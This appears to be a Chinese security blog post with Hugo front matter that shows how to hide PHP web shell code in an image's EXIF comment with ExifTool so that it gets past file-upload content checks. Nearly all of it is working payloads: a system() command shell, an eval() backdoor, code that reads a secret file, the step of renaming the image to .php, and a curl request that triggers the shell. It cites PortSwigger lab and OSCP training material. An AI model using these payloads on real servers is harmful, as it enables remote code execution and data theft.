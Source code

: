 ```yaml
---
# Details front-matter reference: https://hugoloveit.com/zh-cn/theme-documentation-content/#front-matter
title: 【文件上传&文件内容校验】使用 Exiftool 向图片插入数据
subtitle: ""
summary: ""

slug: 95be9cb2
date: 2023-01-31T17:47:17+08:00
lastmod: 2023-01-31T17:47:17+08:00

tags: ["文件内容校验"]
categories: ["File Upload"]

featuredImage: ""
featuredImagePreview: ""

draft: false
---
```


### Description

ExifTool 是一个强大的查看以及操作 EXIF 数据的工具。

在安全测试中, 可以用于将数据插入图片当中, 以绕过文件内容校验

[GitHub - exiftool/exiftool: ExifTool meta information reader/writer](https://github.com/exiftool/exiftool)

### Examples

**Generate File**

```plaintext
# Insert <?php echo "<pre>"; system($_GET['cmd']); ?> to polyglot.jpg
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' polyglot.jpg
mv polyglot.jpg polyglot.php

# Merger <YOUR-INPUT-IMAGE> and <?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

**Usage**

Generate & Move the file

```bash
exiftool -Comment='<?php echo "<pre>"; @eval($_REQUEST['krm']); ?>' polyglot.jpg
mv polyglot.jpg polyglot.php
```

> polyglot >>  [php/01_jpg.php](https://github.com/hitoriskurimu/webshell/blob/main/php/01_jpg.php)

Upload your webshell

```bash
curl http://example.com/01_jpg.php?krm=phpinfo();
```

---

**reference**
- [Lab: Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)
- [Bypass File Upload Filtering · Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html)